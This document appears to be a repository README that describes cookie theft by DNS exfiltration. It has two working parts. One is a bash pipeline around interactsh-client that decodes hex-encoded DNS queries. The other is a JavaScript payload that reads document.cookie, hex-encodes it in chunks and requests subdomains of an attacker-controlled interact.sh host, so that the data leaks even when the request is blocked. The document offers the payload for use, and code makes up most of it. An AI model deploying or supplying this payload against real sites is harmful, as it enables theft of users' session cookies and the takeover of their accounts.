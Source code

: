 ## Reciever

The following payload will set up a DNS listener (using interactsh by project discovery) and sequentially handle the output to transform the DNS queries containing fragments of cookies (that will be sent by the attacker payload) into readable ASCII characters.

> Note: The dns queries will obey the following pattern: hexacode.yourdomain

#### bash Command

```
interactsh-client | tee -a saida  | tr -d '[]' | cut -f1 -d ' ' | xargs -I@ bash -c 'echo @ | xxd -r -p'
```

## Payload attacker
The payload below will convert all cookies present on the current page into multiple requests (using fetch function from js), attempting to call your malicious server which is waiting for DNS queries. 
The trickest and coolest part here is that, if for some reason, the client-side block the GET request from the client-side to be made, with this payload the browser probably has already started a DNS lookup to check if the host provided is alive to be fetched. Then, we can exploit this behavior to gain some advantages. 

#### JS Command

```
t=40;dm='cb364rdve0qv08pghjmgcmdgr5eyyyyyn.interact.sh';k2="-None";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){danger='https://fma6mqp.1wxyg8.sdrv2.fcnoh2'.replace('fma6mqp',iter[o]).replace('1wxyg8',o).replace('sdrv2',k.concat(k2)).replace('fcnoh2',dm);var xhttp = new XMLHttpRequest();xhttp.open("GET", danger);xhttp.send();};};v(dm,d,c)
```
